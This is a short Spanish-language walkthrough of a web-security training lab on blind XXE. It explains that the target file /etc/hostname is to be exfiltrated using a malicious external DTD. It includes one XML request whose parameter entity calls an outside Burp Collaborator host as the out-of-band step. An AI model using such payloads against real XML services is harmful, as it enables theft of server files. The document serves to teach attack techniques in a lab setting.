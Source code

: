 # Laboratorio 5: Explotación de XXE Blind para exfiltrar datos usando un DTD externo malicioso.

En este laboratorio 5 veremos que nos pide lo siguiente:

![lab5](/assets/images/LabsXXE/lab5/lab5.png)

Nos dice que debemos exfiltrar el archivo llamado /etc/hostname, así que si intentamos inyectar nuestras entidades comunes en la petición XML, no nos mostrará nada, por lo que nos ahorramos algo que ya sabemos que va a pasar, así que en la petición hacemos lo que hicimos en el laboratorio anterior:

```xml
<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://6qxjqifs5yua1hf7d27ch2gga7gx4m.burpcollaborator.net"> %xxe;]>
	<stockCheck>
		<productId>
			1
		</productId>
		<storeId>
			1
		</storeId>
	</stockCheck>
```
